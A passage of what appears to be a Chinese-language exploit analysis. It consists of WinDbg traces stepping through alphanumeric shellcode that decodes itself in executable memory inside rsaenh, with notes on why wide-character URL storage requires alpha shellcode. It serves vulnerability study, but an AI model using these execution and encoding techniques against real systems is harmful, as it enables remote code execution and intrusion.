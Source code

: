 eax=00000000 ebx=7ffe0300 ecx=00000001 edx=ffffffff esi=68031460 edi=680124e3
eip=68031460 esp=68031404 ebp=6e6f3176 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
rsaenh!g_pfnFree+0x1a4:
68031460 56              push    esi
0:009> dc 68031460
68031460  00560056 00410059 00340034 00340034  V.V.Y.A.4.4.4.4.
68031470  00340034 00340034 00340034 00410051  4.4.4.4.4.4.Q.A.
</pre>
<p nodeIndex="116">之后进入alpha shellcode，这时候68031460作为shareduserdata，已经具备可执行权限。</p>
<pre class="prettyprint" nodeIndex="117">
Failed to map Heaps (error 80004005)
Usage:                  Image
Allocation Base:        68000000
Base Address:           68031000
End Address:            68032000
Region Size:            00001000
Type:                   01000000    MEM_IMAGE
State:                  00001000    MEM_COMMIT
Protect:                00000040    PAGE_EXECUTE_READWRITE  有了可执行权限
</pre>
<p nodeIndex="118">这里由于url存入内存按照宽字节存放，因此都是以00 xx方式存放，因此不能单纯使用shellcode，而得用alpha shellcode（结尾基友用了另一种方法执行shellcode，大家可以看下），alpha shellcode会先执行一段操作。随后进入解密部分。</p>
<pre class="prettyprint" nodeIndex="119">
0:009> p
eax=059003d9 ebx=7ffe0300 ecx=68031585 edx=68031568 esi=68031460 edi=680124e3
eip=6803154e esp=68031400 ebp=6e6f3176 iopl=0         nv up ei ng nz ac po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000292
rsaenh!g_pfnFree+0x292:
6803154e 41              inc     ecx
0:009> p
eax=059003d9 ebx=7ffe0300 ecx=68031586 edx=68031568 esi=68031460 edi=680124e3
eip=6803154f esp=68031400 ebp=6e6f3176 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000202
rsaenh!g_pfnFree+0x293:
6803154f 004200          add     byte ptr [edx],al          ds:0023:68031568=e3
0:009> p
eax=059003d9 ebx=7ffe0300 ecx=68031586 edx=68031568 esi=68031460 edi=680124e3
eip=68031552 esp=68031400 ebp=6e6f3176 iopl=0         nv up ei ng nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000283
rsaenh!g_pfnFree+0x296:
68031552 6b0110          imul    eax,dword ptr [ecx],10h ds:0023:68031586=00540032
0:009> p
eax=05400320 ebx=7ffe0300 ecx=68031586 edx=68031568 esi=68031460 edi=680124e3
eip=68031555 esp=68031400 ebp=6e6f3176 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000202
rsaenh!g_pfnFree+0x299:
68031555 024102          add     al,byte ptr [ecx+2]        ds:0023:68031588=54
0:009> p
eax=05400374 ebx=7ffe0300 ecx=68031586 edx=68031568 esi=68031460 edi=680124e3
eip=68031558 esp=68031400 ebp=6e6f3176 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000206
rsaenh!g_pfnFree+0x29c:
68031558 8802            mov     byte ptr [edx],al          ds:0023:68031568=bc
0:009> p
eax=05400374 ebx=7ffe0300 ecx=68031586 edx=68031568 esi=68031460 edi=680124e3
eip=6803155a esp=68031400 ebp=6e6f3176 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000206
rsaenh!g_pfnFree+0x29e:
6803155a 42              inc     edx
0:009> p
eax=05400374 ebx=7ffe0300 ecx=68031586 edx=68031569 esi=68031460 edi=680124e3
eip=6803155b esp=68031400 ebp=6e6f3176 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000206